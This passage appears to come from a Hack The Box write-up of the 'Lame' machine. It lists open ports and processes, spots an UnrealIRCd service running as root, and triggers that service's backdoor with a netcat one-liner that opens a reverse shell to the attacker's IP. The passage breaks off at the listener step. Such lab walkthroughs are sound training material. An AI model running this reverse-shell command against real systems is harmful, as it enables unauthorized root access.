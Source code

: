     tcp        0      0 0.0.0.0:40471           0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                                                                   
    tcp6       0      0 :::2121                 :::*                    LISTEN      -                                                                   
    tcp6       0      0 :::3632                 :::*                    LISTEN      -                                                                   
    tcp6       0      0 :::53                   :::*                    LISTEN      -                                                                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                                                                   
    tcp6       0      0 :::5432                 :::*                    LISTEN      -                                                                   
    tcp6       0      0 ::1:953                 :::*                    LISTEN      - 
    

Also, the process list shows `unrealircd` running as root :

    
    
    daemon@lame:/tmp$ ps auxww                                                                                                                                                                                                           
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND                                                                                                                                                             
    root         1  1.3  0.3   2844  1692 ?        Ss   15:26   0:00 /sbin/init                                                                                                                                                          
    root         2  0.0  0.0      0     0 ?        S<   15:26   0:00 [kthreadd]
    ...[snip]...
    root      5203  0.0  0.4   8540  2356 ?        S    15:27   0:00 /usr/bin/unrealircd 
    ...[snip]
    

On trying to connect to this port, I get output that identifies this as from
Metasploitable:

    
    
    daemon@lame:/tmp$ nc 127.0.0.1 6697
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
    ERROR :Closing Link: [127.0.0.1] (Ping timeout)
    

That suggests it’s likely the vulnerable version.

#### Exploit

I exploited this version of IRC in [Irked](/2019/04/27/htb-irked.html), and
even wrote my own script to exploit it. However, it was Python3, and this box
doesn’t have Python3. Rather than back-port it, I can use a one-liner from my
shell:

    
    
    daemon@lame:/tmp$ echo "AB; nc -e /bin/sh 10.10.14.24 443" | nc 127.0.0.1 6697
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
    

And in a `nc` listener, get a shell:

    